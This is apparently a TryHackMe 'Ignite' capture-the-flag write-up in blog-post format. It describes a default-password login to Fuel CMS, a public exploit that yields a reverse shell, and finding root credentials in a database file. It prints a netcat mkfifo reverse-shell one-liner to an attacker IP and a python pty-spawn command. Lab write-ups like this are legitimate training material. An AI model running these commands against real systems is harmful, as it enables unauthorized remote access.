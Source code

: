 ```yaml
---
layout: post
title: "Ignite"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


### Info

IP: 10.10.233.34

### Nmap

![[1.png]]

Website:
![[2.png]]

Gobuster:
![[3.png]]

Exploits:
![[4.png]]

Since the admin did not change their default password, it seems I can just login without having to brute force anything, or figure it out. 

The admin page is located at: http://10.10.233.34/fuel

This brings me to a CMS, where there is very little information.

I decide to now just try out an exploit I found called FuelCMS which grants me a reverse shell. 

![[8.png]]

Bingo!

![[9.png]]

I was able to find the user.txt flag pretty easily. 

Looking around, I was able to find a database file:
![[10.png]]

Root user found! Now I have to escalate. 

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.25.18 4242 > /tmp/f`

This spawns a terminal so that I can login to root:

`python -c 'import pty; pty.spawn("/bin/sh")'`

![[11.png]]
